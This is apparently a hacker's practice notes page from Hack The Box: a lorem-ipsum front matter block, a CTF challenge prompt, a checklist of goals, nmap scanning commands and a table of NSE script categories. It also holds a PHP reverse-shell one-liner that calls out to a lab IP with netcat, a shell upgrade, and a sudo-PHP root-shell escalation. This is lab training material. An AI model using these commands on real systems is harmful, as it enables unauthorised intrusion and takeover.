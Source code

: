 ```yaml
---
title: Super cool article that I wrote(duplicate)
summary: Lorem ipsum dolor sit amet, consectetur adipiscing elit. Aenean in
  eleifend justo, vestibulum congue lacus. Quisque est libero, lacinia sed
  placerat ac, interdum id urna.
categories:
  - Post
tags:
  - Blog
  - post
  - lorem
  - ipsum
date: 2025-06-17T21:47:00.000Z
draft: false
---
```




Volnaya Forums

"The Volnaya Forumxss stand as a sprawling network where citizens compete to outdo each other in public displays of loyalty. Every post and reply is carefully monitored, and the most zealous praise is rewarded with higher loyalty scores. Behind the scenes, a small cadre of administrators wields absolute control, silencing dissent and shaping the narrative to serve the regime’s ambitions. Task Force Phoenix has identified the forum’s admin account as a critical target. Gaining access would allow the task force to disrupt the flow of propaganda and strike a blow against the regime’s information control. Recently, we managed to secure a backup copy of the forum server from an unsecured FTP server. Can you analyze the platform’s architecture and code to uncover any weaknesses that might grant us access to the admin account?"


### Remote code execution
**PHP code**

```
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

**Upgrading shell to TTY**

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Privilege Escalation via PHP

You can spawn a root shell like this:

`sudo /usr/bin/php -r 'system("/bin/bash");'`


## Way Forward


- [ ]  Root a Retired Easy Box  
    
- [ ]  Root a Retired Medium Box  
    
- [ ]  Root an Active Box  
    
- [ ]  Complete an Easy Challenge  
    
- [ ]  Share a Walkthrough of a Retired Box  
    
- [ ]  Complete Offensive Academy Modules  
    
- [ ]  Root Live Medium/Hard Boxes  
    
- [ ]  Complete A Track  
    
- [ ]  Win a `Hack The Box Battlegrounds` Battle  
    
- [ ]  Complete A Pro Lab


# Host Discovery Using Nmap

```
sudo nmap 10.129.2.0/24 -sn -oA tnet | grep for | cut -d" " -f5
```

## Nmap Banner Grabbing

```
nmap 10.129.96.46 -p 22,80,110,139,143,445,31337 -sV -Pn -n --disable-arp-ping --packet-trace
```

# Nmap Scripting Engine

---

Nmap Scripting Engine (`NSE`) is another handy feature of `Nmap`. It provides us with the possibility to create scripts in Lua for interaction with certain services. There are a total of 14 categories into which these scripts can be divided:

| **Category** | **Description**                                                                                                                         |
| ------------ | --------------------------------------------------------------------------------------------------------------------------------------- |
| `auth`       | Determination of authentication credentials.                                                                                            |
| `broadcast`  | Scripts, which are used for host discovery by broadcasting and the discovered hosts, can be automatically added to the remaining scans. |
| `brute`      | Executes scripts that try to log in to the respective service by brute-forcing with credentials.                                        |
| `default`    | Default scripts executed by using the `-sC` option.                                                                                     |
| `discovery`  | Evaluation of accessible services.                                                                                                      |
| `dos`        | These scripts are used to check services for denial of service vulnerabilities and are used less as it harms the services.              |
| `exploit`    | This category of scripts tries to exploit known vulnerabilities for the scanned port.                                                   |
| `external`   | Scripts that use external services for further processing.                                                                              |
| `fuzzer`     | This uses scripts to identify vulnerabilities and unexpected packet handling by sending different fields, which can take much time.     |
| `intrusive`  | Intrusive scripts that could negatively affect the target system.                                                                       |
| `malware`    | Checks if some malware infects the target system.                                                                                       |
| `safe`       | Defensive scripts that do not perform intrusive and destructive access.                                                                 |
| `version`    | Extension for service detection.                                                                                                        |
| `vuln`       | Identification of specific vulnerabilities.                                                                                             |
